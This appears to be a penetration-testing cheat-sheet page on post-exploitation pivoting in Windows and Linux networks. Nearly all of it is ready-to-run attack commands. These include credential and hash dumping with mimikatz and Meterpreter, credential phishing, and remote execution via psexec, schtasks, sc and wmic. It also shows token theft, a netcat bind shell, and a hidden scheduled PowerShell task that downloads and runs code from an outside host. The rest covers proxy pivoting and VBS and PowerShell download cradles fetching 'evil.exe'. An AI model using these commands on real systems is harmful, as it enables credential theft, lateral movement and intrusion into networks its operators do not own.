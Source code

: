 ```yaml
---
title: Pivot
category: Post-Exploitation
order: 97
---
```


> **WINDOWS Remote Commands with Creds or Hash** 

Get Plain Text Passwords and Hashes | <code> mimikatz # privilege::debug <br> mimikatz # inject::process lsass.exe sekurlsa.dll <br> mimikatz # @getLogonPasswords </code>
Get Plain Text Passwords and Hashes | <code> meterpreter>  load kiwi </br> meterpreter > creds_all </code>
Get Hashes | <code> msf > use post/windows/gather/smart_hashdump <br> meterpreter> hashdump  </code>
Phish Creds | <code> msf > use post/windows/gather/phish_windows_credentials </code>
Find Computer to Pivot to | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname <br> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_dnshostname </code>
Get Defensive Tech | <code> wmic /node:[box] process list </code>
psexec (requires install, creates service on target) | <code> psexec \\[tartgetIP] [-d] [-u user]  [-p password] [command] [-s for system] [-d for disconnected like netcat] </code>
Metasploit  psexec (writes executable, creates a service with system privs, automatically removes service and executable) | <code> msf > use exploit/windows/smb/psexec <br> msf > set PAYLOAD [payload] <br> msf > set RHOST [tartget] <br> msf > set SMBUser [admin_username] <br> msf > set SMBPass [admin_password_or_hash] </code>

at <br> windows 7 and lower <br> all commands at SYSTEM | <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> #if it isnt running <br> sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" </code> 
schtasksStart | Time - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE <br> <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command] <br> schtasks /query /s [targetIP]" </code>
SC - Runs as SYSTEM | <code> sc \\[targetIP] create netcat binpath= ""cmd.exe /k c:\tools\nc.exe -L -p cmd.exe <br> sc \\[targetIP] start netcat </code>
Metasploit schtasks | <code> meterpreter> run schtasksabuse -c "[command1][,command2].." -t [target IP] </code>
WMIC Invoke Porgram Runs as Admin User | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] </code>
WMIC on Multiple Machines | <code> /node:@[filename] <br> run a command on multiple machines listed in a file </code>

>**Windows without creds**

{% highlight bash %}
> whoami or sets
> net user [username] /domain

#Steal a Token
meterpreter > use incognito
cobalt strike > Explore Processes and Steal Token
incognito > incognito.exe list_tokens -u
incognito > incognito.exe execute -c domain\user "command"

#Find privs of token
net user [username] /domain

#Find Computer to Pivot To
> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_dnshostname

#Look for defensive technologies
> wmic /node:[box] process list

#An executable or bat file
> net use \\WIN-K5QAGP4CM7V\C$
> copy C:\wamp64\bin\php\payload.exe \\WIN-K5QAGP4CM7V\C$\Users\PUblic\Music\payload.exe
>  wmic /node:"WIN-K5QAGP4CM7V" process call create "C:\Users\PUblic\Music\payload.exe"

#WMIC and Powershell
> wmic /node:"WIN-K5QAGP4CM7V" process call create "powershell.exe -nop -w hidden -encodedcommand [encodedcommand]"

#Scheduled Task and Powershell
> schtasks /create /tn ScoreBoard /s 10.4.0.100 /tr "C:\windows\system32\WindowsPowerShell\V1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.128.0.11:8000/page'''))'" /sc MINUTE /st 12:53
{% endhighlight %}

>**Metasploit and Meterpreter**

{% highlight bash %}
meterpreter> ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run
{% endhighlight %}

* Proxy Chain Configuration:

{% highlight bash %}
vi /etc/proxychains.conf 
#comment out DNS
#Change sock4 to:
socks4 [IP of Attack Machine] [PORT of attach machine]

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}

> **Netcat Relay** 

Relay | <code> Mknod backpipe p <br> nc -l -p [allowed_inbound_port] 0<backpipe | nc 127.0.0.1 22 1>backpipe <br> ssh login@[target] -p [allowed_inbound_port] </code>
Remote Netcat (detached) | <code> nc.exe -d -l -p 4444 -e cmd.exe </code>

> **netsh pivot** 

{% highlight bash %}
netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
{% endhighlight %}
  
> **Downloading Files** 

**Linux** 

TFTP (Kali) | <code> mkdir /tftp && aftpd --daemon --port 69 /tftp </code>
TFTP (victim) | <code> tftp 173.32.52.12 -c get MyFile1.txt </code>
FTP (Kali) | Install Pure FTP (see Install Tools)
FTP (victim) | <code> wget ftp://user:password@192.168.1.2/path/file.ext  </code>



**Windows** 

TFTP (Kali) | <code> mkdir /tftp && aftpd --daemon --port 69 /tftp </code>
TFTP (victim) | <code> tftp -i 192.168.1.3 GET nc.exe </code>
FTP | <code> echo open^ 192.168.1.2^ 21  > ftp.txt && echo USER^ ftpuser >> ftp.txt && echo ftp >> ftp.txt && echo bin >> ftp.txt && echo GET^ file.exe >> ftp.txt && echo bye | ftp -v -n -s:ftp.txt </code>

**Download with VBS**
{% highlight bash %}
note: need to insert escapes (^)
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs 
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo  http.Open "GET", strURL, False >> wget.vbs echo  http.Send >> wget.vbs 
echo  varByteArray = http.ResponseBody >> wget.vbs 
echo  Set http = Nothing >> wget.vbs echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo  strData = "" >> wget.vbs echo  strBuffer = "" >> wget.vbs 
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo  Next >> wget.vbs 
echo  ts.Close >> wget.vbs

cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
{% endhighlight %}

**Download with Powershell**
{% highlight bash %}
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1 
{% endhighlight %}

> **useful resources** 

* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [powershell mimikatz](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)
* [incognito](https://labs.mwrinfosecurity.com/tools/incognito/)
* [powershell token](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1)
* [SSH Cheat Sheet](http://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet)
* [Meterpreter Pivot](https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot)
* [Nessus through Proxy](https://blog.elearnsecurity.com/nessus-and-metasploit-scan-networks-in-pivoting.html)
* [SSH Pivot](http://pwnwiki.io/#!pivoting/linux/index.md)


